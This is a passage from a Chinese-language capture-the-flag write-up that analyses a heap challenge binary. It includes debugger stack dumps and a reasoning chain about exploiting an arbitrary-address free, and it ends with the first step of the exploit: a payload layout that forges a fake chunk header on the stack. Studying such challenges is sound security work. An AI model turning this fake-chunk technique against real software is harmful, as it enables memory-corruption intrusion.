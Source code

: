 ```
0xa
0x5651d8238bb0
0x5
0x8             <- 长度
0x5651d8238bb0  <- free 的地址
0x2
0x5651d7afd5b0
0x5651d8236b00
0x0
0x7
```

经过打断点 free 发现，以上数据在 read 函数的栈上.  
当前笔者思路是 free 到一个受用户操控的地址(必须要能够操控 chunk header). 而纵观整个程序流程，用户可以操控的位置要么是以上的栈空间，要么是一个 stdin 的缓冲区空间. 在这种情况下操控 栈空间 很明显是更明智之举：  

当前程序的调用栈在 read 函数，操控此处的栈空间后，在下一次调用 read 时就极有可能将用户输入的 chunk alloc 到此处，并且其栈底的关键数据也在此处. 

接下来把目光转向 delete 函数，Index 用户可以输入完全超过长度，经过打断点 malloc 调试发现程序逻辑大概是：用户输入了多少个字节的数据，他就 malloc 多少个字节的 chunk. 并将用户输入写入到其中. 

`在测试中，笔者输入了 0x27 个字节(包括\x00)，该函数 malloc 了 0x27 个`  
![qwb](/image/qwbs8/18.png)

在 delete 时又有发现，read_line 函数调用时的 rbp 指向的栈地址，正好为如下的 第八个地址处:  

```
0xa
0x5651d8238bb0
0x5
0x8             <- 长度
0x5651d8238bb0  <- free 的地址
0x2
0x5651d7afd5b0
0x5651d8236b00  <- delete 时 rbp 的位置
0x0
0x7
```

这样，一切就通了：

1. 使用任意地址 free 漏洞，输入以下 payload，free 掉第八个位置造的假 chunk  
   (第八个位置可由 show 函数泄露的信息推断出来)

```
0x0
0x0
0x0
0x401           <- 长度
第八个位置       <- free 的地址
0x0             <- 假 chunk header
0x401           <- 假 chunk header
0x5651d8236b00  <- 假 chunk, delete 时 rbp 的位置
0x0
0x7
```
